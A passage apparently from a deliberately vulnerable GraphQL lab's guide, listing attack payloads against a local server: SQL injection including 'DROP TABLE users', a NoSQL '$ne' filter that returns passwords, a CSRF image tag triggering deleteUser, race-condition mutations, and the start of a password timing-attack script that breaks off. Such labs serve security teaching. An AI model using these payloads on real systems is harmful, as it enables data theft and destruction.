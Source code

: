 ### 7. SQL Injection
```graphql
query {
  searchUsers(name: "' OR '1'='1") {
    id
    username
  }
}

mutation {
  updateProfile(
    id: 1,
    bio: "'; DROP TABLE users; --"
  ) {
    success
  }
}
```

### 8. NoSQL Injection
```graphql
query {
  getUser(filter: "{\"username\": {\"$ne\": null}}") {
    id
    username
    password
  }
}
```

### 9. CSRF - Mutations via GET
```html
<!-- Malicious site -->
<img src="http://localhost:5001/graphql?query=mutation{deleteUser(id:1)}" />
```

### 10. Race Conditions
```graphql
# Simultaneous mutations
mutation {
  transferMoney(from: 1, to: 2, amount: 1000)
}
# Execute multiple times simultaneously
```

## Advanced Exploitation

### Query Timing Attack
```python
import time
import requests

# Time different queries to infer data
query = """
query {
  user(username: "admin", password: "%s") {
    id
  }
}
"""

for char in "abcdefghijklmnopqrstuvwxyz0123456789":
    start = time.time()
```
